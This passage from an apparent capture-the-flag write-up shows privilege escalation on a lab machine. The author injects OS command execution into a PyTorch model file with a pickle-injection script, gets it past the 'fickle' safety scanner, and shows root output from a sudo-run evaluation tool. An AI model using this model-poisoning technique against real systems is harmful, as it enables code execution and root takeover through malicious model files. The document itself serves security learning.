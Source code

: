 I could look for vulnerabilities in the Python script, but my focus is first on seeing if I can get a malcious model past `fickle` and then presumably executed.

Another [post from Hidden Layer](https://hiddenlayer.com/research/weaponizing-machine-learning-models-with-ransomware/) talks about how to poison a model to get RCE through deserialization. There’s a Python script in this post that will take an existing model and inject OS command execution into it using `os.system`, `exec`, `eval`, or `runpy._run_code`.

#### Poison Model

I’ll grab a copy of the `demo_model.pth` file from Blurry back to my local system, and install PyTorch (`pip install torch`). Now I’ll run the `torch_pickle_inject.py` script again the model:

```

(venv) oxdf@hacky$ python torch_pickle_inject.py demo_model.pth runpy "import os; os.system('id')"

```

It takes a model, a command option, and then code. The command can be `system`, `exec`, `eval`, and `runpy`. I’m choosing `runpy` because the article refers to it as “lesser-known”, which seems like it is least likely to trigger `fickle`. The [source](https://github.com/python/cpython/blob/main/Lib/runpy.py#L65-L89) for `_run_code` shows it runs Python code, so I’m just importing OS and running `id`.

This script creates a backup copy of the original file (appending `.bak`), and poisons the original. I’ll upload it to `/models`, and then run:

```

jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/0xdf.pth
[+] Model /models/0xdf.pth is considered safe. Processing...
uid=0(root) gid=0(root) groups=0(root)
[+] Loaded Model.
[+] Dataloader ready. Evaluating model...
[+] Accuracy of the model on the test dataset: 68.75%

```

It’s determined to be safe, and then the output of `id` shows it’s running as root.

Additional testing shows that the `system` command still works just fine:

```

(venv) oxdf@hacky$ python torch_pickle_inject.py demo_model.pth system "id"

```

On running:

```

jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/0xdf.pth
[+] Model /models/0xdf.pth is considered safe. Processing...
uid=0(root) gid=0(root) groups=0(root)
[+] Loaded Model.
[+] Dataloader ready. Evaluating model...
[+] Accuracy of the model on the test dataset: 64.06%

```
